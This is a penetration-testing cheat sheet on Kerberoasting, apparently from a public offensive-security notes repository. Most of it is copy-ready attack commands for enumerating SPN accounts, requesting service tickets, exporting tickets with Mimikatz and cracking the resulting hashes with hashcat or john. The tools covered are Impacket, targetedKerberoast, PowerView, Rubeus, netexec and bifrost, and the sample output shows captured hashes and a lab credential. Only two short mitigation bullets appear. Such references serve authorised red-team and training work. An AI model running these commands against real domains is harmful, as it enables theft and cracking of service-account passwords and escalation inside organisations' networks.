 # Roasting - Kerberoasting

> "A service principal name (SPN) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. " - [MSDN](https://docs.microsoft.com/fr-fr/windows/desktop/AD/service-principal-names)

Any valid domain user can request a kerberos ticket (ST) for any domain service. Once the ticket is received, password cracking can be done offline on the ticket to attempt to break the password for whatever user the service is running as.

## Linux

### [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket Suite

* **List All SPN Accounts**  
  ```bash
  Impacket-GetUserSPNs -dc-ip <DC IP> <domain>/<user>
  ```
* **Request all TGS Tickets** 
  ```bash
  $ impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

  Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

  ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
  --------------------  -------------  --------------------------------------------------------  -------------------  -------------------
  active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40  2018-12-03 17:11:11 

  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$424338c0a3c3af43[...]84fd2
  ```
* **Request a Single TGS ticket**  
  ```bash
  Impacket-GetUserSPNs -dc-ip <dc ip> <domain>/<user> -request-user <target user>
  ```
* **Save the ticket to an output file**  
  ```bash
  Impacket-GetUserSPNs -dc-ip <dc ip> <domain>/<user> -request-user <target user> -outputfile <filename>
  ```

 ### [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)
* **for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute),**  
  **print the "kerberoast" hash, and delete the temporary SPN set for that operation**  
  ```bash
  targetedKerberoast.py [-h] [-v] [-q] [-D TARGET_DOMAIN] [-U USERS_FILE] [--request-user username] [-o OUTPUT_FILE] [--use-ldaps] [--only-abuse] [--no-abuse] [--dc-ip ip address] [-d DOMAIN] [-u USER] [-k] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key]
  ```
## Windows

### Enumeration
* **Using setspn.exe to enumerate SPN's**   
  ```powershell
  setspn.exe -Q */*
  ```
* **Powerview**  
    ```powershell
    Get-DomainUser -SPN
    ```
### Attack
* **Powershell**  
  ```powershell
  Add-Type -AssemblyName System.IdentityModel
  New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList <SPN Name>
  ```
* **Powerview**  
    ```powershell
    Invoke-Kerberoast
    ```
    ```powershell
    #Get all SPN's
    Get-DomainUser * -SPN | Get-DomainSPNTicket -format Hashcat | export-csv .\tgs.csv -notypeinformation
    cat tgs.csv

    #Get Single User SPN
    Get-DomainUser -Identity <username> | Get-DomainSPNTicket -Format Hashcat
    
    #Get Kerberoast Hash of a single user
    Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local" -Format Hashcat
    ```
* **Rubeus**  
    ```powershell
    Rubeus.exe kerberoast /nowrap
    ```
* **Retrieving All Tickets Using setspn.exe**  
  :warning: This will pull all computer accounts as well, so use with caution
  ```powershell
  setspn.exe -T <domain> -Q */* | Select-String '^CN' -Context 0,1 | % {New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
  ```
* **Extracting the tickets from Memory w/ Mimikatz**  
  ```powershell
  mimikatz # base64 /out:true # If you do not specify this, it will dump the tickets into .kirbi files
  isBase64InterceptInput  is false
  isBase64InterceptOutput is true

  mimikatz # kerberos::list /export
  ```
* **Prepare the Base64 Blob for cracking**
  ```powershell  
  echo "<base64blob>" | tr-d \\n
  ```
* **Placing the Output into a .kirbi file**  
  ```bash
  cat <encoded file> | base64 -d > <file>.kirbi
  ```
* **Ticket Extraction with kirbi2john.py**  
  ```bash
  kirbi2john.py sqldev.kirbi
  ```
* **Modify the crack_file for Hashcat**  
  ```bash
  sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
  ```
* **Crack with Hashcat**  
  ```bash
  hashcat -a 0 -m 13100 <hashfile> <wordlist>
  ```

* **netexec Module**  

  ```powershell
  $ netexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --kerberoast output.txt
  LDAP        10.0.2.11       389    dc01           [*] Windows 10.0 Build 17763 x64 (name:dc01) (domain:lab.local) (signing:True) (SMBv1:False)
  LDAP        10.0.2.11       389    dc01           $krb5tgs$23$*john.doe$lab.local$MSSQLSvc/dc01.lab.local~1433*$efea32[...]49a5e82$b28fc61[...]f800f6dcd259ea1fca8f9
  ```

* **[Rubeus](https://github.com/GhostPack/Rubeus)**  

  ```powershell
  # Stats
  Rubeus.exe kerberoast /stats
  -------------------------------------   ----------------------------------
  | Supported Encryption Type | Count |  | Password Last Set Year | Count |
  -------------------------------------  ----------------------------------
  | RC4_HMAC_DEFAULT          | 1     |  | 2021                   | 1     |
  -------------------------------------  ----------------------------------

  #All accounts with the ldap filter set to "1"
  .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap #/nowrap keeps line breaks out of crackable hash

  
  # Kerberoast (RC4 ticket)
  Rubeus.exe kerberoast /creduser:DOMAIN\JOHN /credpassword:MyP@ssW0RD /outfile:hash.txt

  # Kerberoast (AES ticket)
  # Accounts with AES enabled in msDS-SupportedEncryptionTypes will have RC4 tickets requested.
  Rubeus.exe kerberoast /tgtdeleg

  # Kerberoast (RC4 ticket)
  # The tgtdeleg trick is used, and accounts without AES enabled are enumerated and roasted.
  Rubeus.exe kerberoast /rc4opsec
  ```

* **[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)**  

### Mac(osX)
* **[bifrost](https://github.com/its-a-feature/bifrost) on macOS machine**  

  ```powershell
  ./bifrost -action asktgs -ticket doIF<...snip...>QUw= -service host/dc1-lab.lab.local -kerberoast true
  ```

## Cracking w/ Hashcat
* **Crack the ticket using the correct hashcat mode (`$krb5tgs$23`= `etype 23`)**  

| Mode    | Description  |
|---------|--------------|
| `13100` | Kerberos 5 TGS-REP etype 23 (RC4) |
| `19600` | Kerberos 5 TGS-REP etype 17 (AES128-CTS-HMAC-SHA1-96) |
| `19700` | Kerberos 5 TGS-REP etype 18 (AES256-CTS-HMAC-SHA1-96) |

```powershell
./hashcat -m 13100 -a 0 kerberos_hashes.txt crackstation.txt
./john --wordlist=/opt/wordlists/rockyou.txt --fork=4 --format=krb5tgs ~/kerberos_hashes.txt
```
## Kerberoasting w/o an Account Password
* **Requirements**  
  1. Username of an account wiht pre-auth disabled (DONT_REQ_PREAUTH)
  2. Target SPN or list of SPN's

* **The Attack**  
  1. Execute Rubeus in creatnetonly
     ```powershell
     Rubeus.exe creatnetonly /program:cmd.exe /show
     ```
  2. Perform the attack with /nopreauth
     ```powershell
     Rubeus.exe kerberoast /nopreauth:<username> /domain:<domain> /spn:<SPN> /nowrap
     # Instead of /spn, we can use /spns:listofspns.txt and try multiple SPN's
     ```
**Mitigations**:

* Have a very long password for your accounts with SPNs (> 32 characters)
* Make sure no users have SPNs

## References

* [Hack The Box Academy](https://academy.hackthebox.com/module/143/section/1456)
* [Abusing Kerberos: Kerberoasting - Haboob Team](https://www.exploit-db.com/docs/english/45051-abusing-kerberos---kerberoasting.pdf)
* [Invoke-Kerberoast - Powersploit Read the docs](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
* [Kerberoasting - Part 1 - Mubix “Rob” Fuller](https://room362.com/post/2016/kerberoast-pt1/)
* [Post-OSCP Series Part 2 - Kerberoasting - 16 APRIL 2019 - Jon Hickman](https://0metasecurity.com/post-oscp-part-2/)
* [Training - Attacking and Defending Active Directory Lab - Altered Security](https://www.alteredsecurity.com/adlab)

# Original Notes from [SwisskyRepo](https://github.com/swisskyrepo/InternalAllTheThings)
